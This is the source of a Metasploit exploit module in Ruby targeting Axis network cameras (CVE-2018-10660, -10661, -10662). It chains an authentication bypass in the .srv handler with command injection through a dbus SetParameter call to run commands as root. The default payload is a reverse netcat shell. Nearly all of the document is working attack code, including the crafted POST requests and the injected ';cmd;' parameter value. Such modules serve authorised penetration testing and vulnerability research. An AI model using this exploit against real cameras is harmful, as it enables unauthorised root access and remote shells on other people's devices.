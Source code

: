 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      #include Msf::Exploit::CmdStager

      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'Axis Network Camera .srv to parhand RCE',
          'Description'    => %q{
            This module exploits an auth bypass in .srv functionality and a
            command injection in parhand to execute code as the root user.
          },
          'Author'         => [
            'Or Peles',       # Vulnerability discovery (VDOO)
            'wvu',            # Metasploit module
            'sinn3r',         # Metasploit module
            'Brent Cook',     # Metasploit module
            'Jacob Robles',   # Metasploit module
            'Matthew Kienow', # Metasploit module
            'Shelby Pace',    # Metasploit module
            'Chris Lee',      # Metasploit module
            'Cale Black'      # Metasploit module
          ],
          'References'     => [
            ['CVE', '2018-10660'],
            ['CVE', '2018-10661'],
            ['CVE', '2018-10662'],
            ['URL', 'https://blog.vdoo.com/2018/06/18/vdoo-discovers-significant-vulnerabilities-in-axis-cameras/'],
            ['URL', 'https://www.axis.com/files/faq/Advisory_ACV-128401.pdf']
          ],
          'DisclosureDate' => 'Jun 18 2018',
          'License'        => MSF_LICENSE,
          'Platform'       => ['unix'],# 'linux'],
          'Arch'           => [ARCH_CMD],# ARCH_ARMLE],
          'Privileged'     => true,
          'Targets'        => [
            ['Unix In-Memory',
             'Platform'    => 'unix',
             'Arch'        => ARCH_CMD,
             'Type'        => :unix_memory,
             'Payload'     => {
               'BadChars'  => ' ',
               'Encoder'   => 'cmd/ifs',
               'Compat'    => {'PayloadType' => 'cmd', 'RequiredCmd' => 'netcat-e'}
             }
            ],
    =begin
            ['Linux Dropper',
             'Platform'    => 'linux',
             'Arch'        => ARCH_ARMLE,
             'Type'        => :linux_dropper
            ]
    =end
          ],
          'DefaultTarget'  => 0,
          'DefaultOptions' => {'PAYLOAD' => 'cmd/unix/reverse_netcat_gaping'}
        ))
      end

      def exploit
        case target['Type']
        when :unix_memory
          execute_command(payload.encoded)
    =begin
        when :linux_dropper
          execute_cmdstager
    =end
        end
      end

      def execute_command(cmd, opts = {})
        rand_srv = "#{Rex::Text.rand_text_alphanumeric(8..42)}.srv"

        send_request_cgi(
          'method'    => 'POST',
          'uri'       => "/index.html/#{rand_srv}",
          'vars_post' => {
            'action'  => 'dbus',
            'args'    => dbus_send(
              method: :set_param,
              param:  "string:root.Time.DST.Enabled string:;#{cmd};"
            )
          }
        )

        send_request_cgi(
          'method'    => 'POST',
          'uri'       => "/index.html/#{rand_srv}",
          'vars_post' => {
            'action'  => 'dbus',
            'args'    => dbus_send(method: :synch_params)
          }
        )
      end

      def dbus_send(method:, param: nil)
        args = '--system --dest=com.axis.PolicyKitParhand ' \
               '--type=method_call /com/axis/PolicyKitParhand '

        args <<
          case method
          when :set_param
            "com.axis.PolicyKitParhand.SetParameter #{param}"
          when :synch_params
            'com.axis.PolicyKitParhand.SynchParameters'
          end

        args
      end

    end